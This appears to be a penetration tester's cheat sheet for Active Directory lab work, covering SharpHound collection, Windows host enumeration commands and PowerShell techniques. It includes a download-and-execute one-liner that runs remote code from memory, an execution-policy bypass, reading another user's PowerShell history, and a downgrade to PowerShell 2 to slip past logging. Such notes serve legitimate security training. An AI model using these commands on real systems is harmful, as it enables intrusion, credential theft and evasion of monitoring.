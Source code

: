 ### BloodHound
- SharpHound
```PowerShell
./SharpHound.exe -c All --zipfilename ILFREIGHT
```


-----
# LIVING OFF THE LAND
-----
### Basic Information
|**Command**|**Result**|
|---|---|
|`hostname`|Prints the PC's Name|
|`systeminfo`|Print a summary of the host's information for us in one tidy output|
|`[System.Environment]::OSVersion.Version`|Prints out the OS version and revision level|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Prints the patches and hotfixes applied to the host|
|`ipconfig /all`|Prints out network adapter state and configurations|
|`set %USERDOMAIN%`|Displays the domain name to which the host belongs (ran from CMD-prompt)|
|`set %logonserver%`|Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)|

#### Harness PowerShell
- We can find information of the PowerShell installed on the target.
```PowerShell
# List available modules loaded for use
Get-Module
# Print the Execution Policy settings for each scope on a host
Get-ExecutionPolicy -List
# Change the ExecutionPolicy using -Scope. -Scope will revert all the changes once terminal is closed.
Set-ExecutionPolicy Bypass -Scope Process
# Get a specified user's PowerShell History.
Get-Content C:\Users\$USER\AppData\Roaming\Microsof\Windows\PowerShell\PSReadline\ConsoleHOst_history.txt
# Return enviornment values such as key paths, users, computer information, etc.
Get-ChildItem Env: | ft Key,Value
# A quick way to download a file from the web using PowerShell & call it from memory
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString($URL); $CMD"
```

#### Downgrade PowerShell
```PowerShell
# Get the current version of PowerShell
Get-Host
Name             : ConsoleHost
Version          : 5.1.19041.1320

# Downgrade PowerShell
powershell.exe -version 2

# Double check the change
Get-Host
Name             : ConsoleHost
Version          : 2.0
```

